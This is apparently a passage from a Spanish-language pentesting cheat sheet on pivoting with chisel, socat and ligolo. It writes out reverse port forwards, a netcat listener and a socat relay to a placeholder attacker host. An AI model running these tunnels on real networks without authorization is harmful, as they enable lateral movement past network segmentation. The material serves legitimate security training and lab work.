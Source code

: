 ```
./chisel client 10.9.0.138:8000 R:9001:127.0.0.1:9001
```

# Pivoting con Socat
Primero nos ponemos a la escucha con nuestra maquina
```
nc -nvlp 4444
```

Ahora creamos la conexión de la maquina intermediaria con socat por el puerto que estamos en escucha
```
socat TCP-L:4444,fork,reuseraddr TCP:<host-atacante>:4444
```
- `TCP-LISTEN:4444`: `socat` escucha en el puerto 4444.
- `reuseaddr`: Esta opción permite reutilizar la dirección del socket si está en uso por otro proceso.
- `fork`: Permite manejar múltiples conexiones entrantes.

# Pivoting con Ligolo
## **Crear y levantar interfaz de red**
```
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
```

## **Añadir ruta a tabla de enrutamiento**
```
sudo ip route add 10.10.10.0/24 dev ligolo
```

## **Ejecutar ligolo**
```
./proxy -selfcert
```

## **Conectarnos desde maquina Linux**
```
./agent -connect 192.168.0.14:11601 -ignore-cert
```

## **Conectarnos desde maquina Windows**
```
.\agent.exe -connect 192.168.0.14:11601 -ignore-cert
```

## **Portforwarding con Ligolo**
```
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```
